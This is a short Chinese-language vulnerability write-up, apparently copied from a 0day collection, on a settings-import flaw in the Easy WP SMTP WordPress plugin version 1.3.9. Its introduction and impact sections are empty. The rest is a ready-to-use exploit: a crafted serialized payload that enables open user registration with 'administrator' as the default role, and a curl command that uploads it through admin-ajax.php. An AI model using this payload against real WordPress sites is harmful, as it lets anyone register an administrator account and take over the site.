

# WordPress Plugin - Easy WP SMTP 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/22.html](http://book.iwonder.run/0day/Wordpress/22.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我们首先搭建一个 wordpress 站点，安装 v1.3.9 版本的 Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于 swpsmtp_import_settings 上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：

```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";} 
```

2.上传文件

```
$ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt' 
```



